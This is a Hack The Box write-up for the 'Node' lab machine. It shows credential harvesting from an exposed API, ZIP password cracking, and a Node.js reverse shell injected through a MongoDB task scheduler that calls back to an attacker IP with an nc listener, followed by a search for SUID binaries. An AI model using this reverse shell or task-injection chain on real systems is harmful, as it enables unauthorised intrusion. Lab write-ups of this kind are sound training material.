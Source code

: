 ```yaml
---
layout: post
title: Node(HTB)
categories:
  - Writeup
---
```


<br>OS linux
<br>IP: 10.10.10.58


**Nmap**:-
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nmap -sS -A 10.10.10.58</p>

<p>Starting Nmap 7.50 ( https://nmap.org ) at 2018-03-03 11:09 EST
<br>Nmap scan report for 10.10.10.58
<br>Host is up (0.19s latency).
<br>Not shown: 998 filtered ports
<br>PORT     STATE SERVICE VERSION
<br><font color="BB69EC">22/tcp</font>   open  ssh     <font color="53E100">OpenSSH 7.2p2</font> Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
<br>| ssh-hostkey: 
<br>|   2048 dc:5e:34:a6:25:db:43:ec:eb:40:f4:96:7b:8e:d1:da (RSA)
<br>|   256 6c:8e:5e:5f:4f:d5:41:7d:18:95:d1:dc:2e:3f:e5:9c (ECDSA)
<br>|_  256 d8:78:b8:5d:85:ff:ad:7b:e6:e2:b5:da:1e:52:62:36 (EdDSA)
<br><font color="BB69EC">3000/tcp</font> open  http    <font color="53E100">Node.js Express</font> framework
<br>| hadoop-datanode-info: 
<br>|_  Logs: /login
<br>|_hadoop-jobtracker-info: 
<br>| hadoop-tasktracker-info: 
<br>|_  Logs: /login
<br>|_hbase-master-info: 
<br>|_http-title: MyPlace
<br>Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
<br>Aggressive OS guesses: Linux 3.10 - 4.8 (92%), Linux 3.12 (92%), Linux 3.13 (92%), Linux 3.13 or 4.2 (92%), Linux 3.16 (92%), Linux 3.16 - 4.6 (92%), Linux 3.18 (92%), Linux 3.2 - 4.8 (92%), Linux 3.8 - 3.11 (92%), Linux 4.4 (92%)
<br>No exact OS matches for host (test conditions non-ideal).
<br>Network Distance: 2 hops
<br>Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel</p>

<p>TRACEROUTE (using port 22/tcp)
<br>HOP RTT       ADDRESS
<br>1   196.72 ms 10.10.14.1
<br>2   196.85 ms 10.10.10.58</p>

<p>OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
<br>Nmap done: 1 IP address (1 host up) scanned in 48.94 seconds
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font>#</p>

</div>
</font>

<br>**WEB**
<br>**Port:3000**
![1](https://teckk2.github.io/assets/images/node/1.png)
<br>Open any one profile and check the network section in the Inspect Element, and reload the page and you will see there is a hidden directory **/api/users/mark** where the page is pointing to
![2](https://teckk2.github.io/assets/images/node/2.png)
<br>Open it and you will see the user mark password hash
![3](https://teckk2.github.io/assets/images/node/3.png)
<br>Now remove the user **mark** from the URL and you will see every users password hash in that page
![4](https://teckk2.github.io/assets/images/node/4.png)
<br>Now using online cracking [Tool](https://crackstation.net) crack the password hash,
<br>Username = **myP14ceAdm1nAcc0uNT**
<br>Password = **manchester**
<br>Username = **tom**
<br>Password = **spongebob**
<br>Username = **mark**
<br>Password = **snowflake**
<br>Now with the admin accounts credentials we can login
![5.1](https://teckk2.github.io/assets/images/node/5.1.png)
<br>Download the backup file.
<br>Many people faced issue while downloading that file, So If you are using Mozila than try downloading it from Crome,in many time from Crome also the file is not getting downloading completely so you need to trie couple of times to download it completely. if both the ways didn't work you can copy the File from my [repo](https://github.com/Teckk2/Teck_k2/blob/master/node/myplace.backup), It's a Base64 so you just need to copy and paste to a new file in your system.

<font size="1">
<div style="height:150px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># file myplace.backup 
<br>myplace.backup: ASCII text, with very long lines, with no line terminators
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># cat myplace.backup | base64 -d > backup
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># file backup 
<br>backup: Zip archive data, at least v1.0 to extract
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># mv backup backup.zip
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># unzip backup.zip 
<br>Archive:  backup.zip
<br>&nbsp;&nbsp;&nbsp;creating: var/www/myplace/
<br>[backup.zip] var/www/myplace/package-lock.json password:</p>

</div>
</font>

<br>The ZIP file is password protected, so to crack it we will use fcrackzip tool.

<font size="1">
<div style="height:150px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># fcrackzip -D -p /usr/share/wordlists/rockyou.txt backup.zip 
<br>possible pw found: <font color="ffff00">magicword</font> ()
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># mkdir node
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># mv backup.zip node/
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># cd node/
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop/node</font># ls
<br>backup.zip
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop/node</font># unzip backup.zip 
<br>Archive:  backup.zip
<br>[backup.zip] var/www/myplace/package-lock.json password: </p>

</div>
</font>

<br>Using the password **magicword** we unzip the file, and there is lot of files inside it so we have to look everyfile one-by-one
<br>Under /var/www/myplace there is a app.js file which have username and password using which we can login to SSH.

<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p><font color="red">root@kali</font>root@kali:<font color="RoyalBlue">~/Desktop/node/var/www/myplace</font># ls -la
<br>total 56
<br>drwxr-xr-x  4 root root  4096 Sep  3 08:59 .
<br>drwxr-xr-x  3 root root  4096 Mar  4 02:11 ..
<br>-rw-rw-r--  1 root root  3861 Sep  2  2017 app.html
<br>-rw-rw-r--  1 root root  8058 Sep  3 08:23 app.js
<br>drwxr-xr-x 69 root root  4096 Sep  1  2017 node_modules
<br>-rw-rw-r--  1 root root   283 Sep  1  2017 package.json
<br>-rw-r--r--  1 root root 21264 Sep  1  2017 package-lock.json
<br>drwxrwxr-x  6 root root  4096 Sep  1  2017 static
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop/node/var/www/myplace</font># cat app.js </p>

<p>const express&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;= require('express');
<br>const session&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;= require('express-session');
<br>const bodyParser&nbsp;&nbsp;= require('body-parser');
<br>const crypto&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;= require('crypto');
<br>const MongoClient = require('mongodb').MongoClient;
<br>const ObjectID&nbsp;&nbsp;&nbsp;&nbsp;= require('mongodb').ObjectID;
<br>const path&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;= require("path");
<br>const spawn&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;= require('child_process').spawn;
<br>const app&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;= express();
<br>const url&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;= 'mongodb://mark:5AYRft73VtFpc84k@localhost:27017/myplace?authMechanism=DEFAULT&authSource=myplace';
<br>const backup_key&nbsp;&nbsp;= '45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474';
<br>....
<br>....
<br>....
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop/node/var/www/myplace</font># </p>

</div>
</font>

<br>Username : **mark**
<br>Password : **5AYRft73VtFpc84k**

<br>**SSH**
![6](https://teckk2.github.io/assets/images/node/6.JPG)
<br>After enumerating for some time I found another app.js file in /var/scheduler which I got from the **ps aux** output which has tom user access but the file is owned by root which is executing the tasks command and executing doc.cmd file from the mongo.

<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p><font color="53E100">mark@node</font>:<font color="RoyalBlue">/var/scheduler</font>$ ls -la
<br>total 28
<br>drwxr-xr-x  3 root root 4096 Sep  3 14:24 .
<br>drwxr-xr-x 15 root root 4096 Sep  3 14:06 ..
<br>-rw-rw-r--  1 root root  910 Sep  3 15:24 app.js
<br>drwxr-xr-x 19 root root 4096 Sep  3 14:24 node_modules
<br>-rw-rw-r--  1 root root  176 Sep  3 14:08 package.json
<br>-rw-r--r--  1 root root 4709 Sep  3 14:24 package-lock.json
<br><font color="53E100">mark@node</font>:<font color="RoyalBlue">/var/scheduler</font>$ cat app.js 
<br>const exec&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;= require('child_process').exec;
<br>const MongoClient&nbsp;= require('mongodb').MongoClient;
<br>const ObjectID&nbsp;&nbsp;&nbsp;&nbsp;= require('mongodb').ObjectID;
<br>const url&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;= 'mongodb://mark:5AYRft73VtFpc84k@localhost:27017/scheduler?authMechanism=DEFAULT&authSource=scheduler';</p>

<p>MongoClient.connect(url, function(error, db) {
<br>&nbsp;&nbsp;if (error || !db) {
<br>&nbsp;&nbsp;&nbsp;&nbsp;console.log('[!] Failed to connect to mongodb');
<br>&nbsp;&nbsp;&nbsp;&nbsp;return;
<br>&nbsp;&nbsp;}</p>

<p>&nbsp;&nbsp;setInterval(function () {
<br>&nbsp;&nbsp;&nbsp;&nbsp;db.collection('tasks').find().toArray(function (error, docs) {
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;if (!error && docs) {
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;docs.forEach(function (doc) {
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;if (doc) {
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;console.log('Executing task ' + doc._id + '...');
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;exec(doc.cmd);
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;db.collection('tasks').deleteOne({ _id: new ObjectID(doc._id) });
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;}
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;});
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;}
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;else if (error) {
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;console.log('Something went wrong: ' + error);
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;}
<br>&nbsp;&nbsp;&nbsp;&nbsp;});
<br>&nbsp;&nbsp;}, 30000);</p>

<p>});
<br><font color="53E100">mark@node</font>:<font color="RoyalBlue">/var/scheduler</font>$</p>

</div>
</font>


<br>Now we have to create a new cmd.js file inside /tmp folder and put nodejs reverse shell inside it and we have to edit the task and edit the path to our new file
<br>[*Node.js reverse shell*](https://github.com/appsecco/vulnerable-apps/tree/master/node-reverse-shell)

<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p><font color="53E100">mark@nod</font>e:<font color="RoyalBlue">/tmp</font>$ nano cmd.js
<br>Unable to create directory /home/mark/.nano: Permission denied
<br>It is required for saving/loading search history or cursor positions.</p>

<p>Press Enter to continue</p>

<p><font color="53E100">mark@nod</font>e:<font color="RoyalBlue">/tmp</font>$ cat cmd.js 
<br>(function(){
<br>&nbsp;&nbsp;&nbsp;&nbsp;var net = require("net"),
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;cp = require("child_process"),
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;sh = cp.spawn("/bin/sh", []);
<br>&nbsp;&nbsp;&nbsp;&nbsp;var client = new net.Socket();
<br>&nbsp;&nbsp;&nbsp;&nbsp;client.connect(4455, "10.10.14.10", function(){
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;client.pipe(sh.stdin);
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;sh.stdout.pipe(client);
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;sh.stderr.pipe(client);
<br>&nbsp;&nbsp;&nbsp;&nbsp;});
<br>&nbsp;&nbsp;&nbsp;&nbsp;return /a/; // Prevents the Node.js application form crashing
<br>})();
<br><font color="53E100">mark@nod</font>e:<font color="RoyalBlue">/tmp</font>$ chmod +x cmd.js 
<br><font color="53E100">mark@nod</font>e:<font color="RoyalBlue">/tmp</font>$ mongo
<br>MongoDB shell version: 3.2.16
<br>connecting to: test
<br>> var mydb = connect('mongodb://mark:5AYRft73VtFpc84k@localhost:27017/scheduler')
<br>connecting to: mongodb://mark:5AYRft73VtFpc84k@localhost:27017/scheduler
<br>> mydb.tasks.insert({cmd: "/usr/bin/node /tmp/cmd.js"})
<br>WriteResult({ "nInserted" : 1 })
<br>> </p>

</div>
</font>

<br>make sure to set up the listener before you run the command in mongo.

<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop/node</font># nc -nlvp 4455
<br>listening on [any] 4455 ...
<br>connect to [10.10.*.*] from (UNKNOWN) [10.10.10.58] 47440
<br>/bin/bash -i
<br>bash: cannot set terminal process group (1225): Inappropriate ioctl for device
<br>bash: no job control in this shell
<br>To run a command as administrator (user "root"), use "sudo <command>".
<br>See "man sudo_root" for details.</p>

<p>tom@node:/$ id
<br>id
<br>uid=1000(tom) gid=1000(tom) groups=1000(tom),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),115(lpadmin),116(sambashare),1002(admin)
<br>tom@node:/$ cd /home 
<br>cd /home
<br>tom@node:/home$ ls
<br>ls
<br>frank
<br>mark
<br>tom
<br>tom@node:/home$ cd tom
<br>cd tom
<br>tom@node:~$ cat user.txt
<br>cat user.txt
<br><font color="53E100">********************************</font>
<br>tom@node:~$ </p>

</div>
</font>

<br>**Privilege Escalation**

<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p>tom@node:~$ <font color="ffff00">for i in `locate -r "bin$"`; do find $i \( -perm -4000 -o -perm -2000 \) -type f 2>/dev/null; done</font>
<br>0 \) -type f 2>/dev/null; doneo find $i \( -perm -4000 -o -perm -200 
<br>/bin/ping
<br>/bin/umount
<br>/bin/fusermount
<br>/bin/ping6
<br>/bin/ntfs-3g
<br>/bin/su
<br>/bin/mount
<br>/sbin/unix_chkpwd
<br>/sbin/pam_extrausers_chkpwd
<br>/usr/bin/chfn
<br>/usr/bin/chage
<br>/usr/bin/at
<br>/usr/bin/expiry
<br>/usr/bin/gpasswd
<br>/usr/bin/ssh-agent
<br>/usr/bin/mlocate
<br>/usr/bin/screen
<br>/usr/bin/newgidmap
<br>/usr/bin/chsh
<br>/usr/bin/wall
<br>/usr/bin/sudo
<br>/usr/bin/bsd-write
<br>/usr/bin/pkexec
<br>/usr/bin/crontab
<br>/usr/bin/newgrp
<br>/usr/bin/passwd
<br>/usr/bin/newuidmap
<br><font color="ffff00">/usr/local/bin/backup</font>
<br>tom@node:~$ ls -l /usr/local/bin/backup
<br>ls -l /usr/local/bin/backup
<br>-rwsr-xr-- 1 root admin 16484 Sep  3 11:30 /usr/local/bin/backup
<br>tom@node:~$ file /usr/local/bin/backup
<br>file /usr/local/bin/backup
<br>/usr/local/bin/backup: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-<br>linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=343cf2d93fb2905848a42007439494a2b4984369, not stripped
<br>tom@node:~$ </p>

</div>
</font>

<br>The file backup have SUID perm on it, so we can use it to gain root access
<br>We need to analyse this binary file for that we need to download this to our own machine.













